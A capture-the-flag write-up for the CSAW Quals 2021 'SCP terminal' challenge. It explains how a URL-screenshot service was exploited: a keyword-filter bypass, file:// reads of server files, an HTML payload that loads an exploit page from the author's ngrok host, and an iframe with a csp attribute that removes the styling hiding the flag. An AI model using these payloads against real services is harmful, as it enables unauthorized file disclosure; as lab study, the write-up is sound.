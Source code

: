 ```text
Every since you started working this administrative government job, things have gotten strange. It's not just because your day is spent cataloging an archive of anomalous objects. In your dreams you see a burning number: 31337 Maybe this terminal can help uncover the meaning of these dreams.
```

![](/ctf/csaw-quals-2021/scp_terminal_landing.png)

The Explore Archive button opens up a random SCP-wiki page and the Contain SCP button will open up the provided URL on the server and show a screenshot. It'll only work if the URL contains "scp-" so I added "?test=scp-wiki" to the end of the URL to bypass the check. 

# Enumeration

Using the URL "view-source:file:///server?test=scp-wiki" prints a list of all the server files. I used view-source because it wasn't rendering the file listing directly for some reason. 

![](/ctf/csaw-quals-2021/scp_terminal_serverdir.png)

There are a few interesting files there; but let's look at server.py first.

![](/ctf/csaw-quals-2021/scp_terminal_serverpy.png)

Hey, we have arbitrary file read; What if I just view the flag template? 

![](/ctf/csaw-quals-2021/scp_terminal_scp31337.png)

Ahahaha I should've expected that. The next thing I tried was viewing the source, but the viewport wasn't big enough to see the flag. I was stuck on this stage for a while until I found some functionality which let me upload a file to the server by viewing a page like this. 

```html
<html>
<head>
</head>
<body>
<div class="scp-image-block">
	<img  src="http://822f-128-194-3-233.ngrok.io/exploit.html">
</div>
</body>
</html>
```

![](/ctf/csaw-quals-2021/scp_terminal_contain.png)

The server won't serve contained non-image files but it doesn't matter all that much because we have arbitrary file read by way of file://. I actually wrote a payload that worked in my testing, was really excited to test on the server only to find it didn't work -- Firefox considers file <-> file to be the same origin but Chrome does not so I couldn't access the contents of the iframe. I read the documentation on iframes and found the csp attribute; which lets me control the content security policy of the child page. The flag was in the viewport of scp_31337.html, just obfuscated by css. I wrote a quick HTML to iframe the file with CSS disabled and then got the flag. 

```html
<html>
<head>
</head>
<body>
<iframe id="frame" src="file:///server/templates/scp-31337.html"
            title="iframe Example 1" width="720" height="400" csp="style-src none">
</iframe>
</body>
</html>
```
![](/ctf/csaw-quals-2021/scp_terminal_flag.png)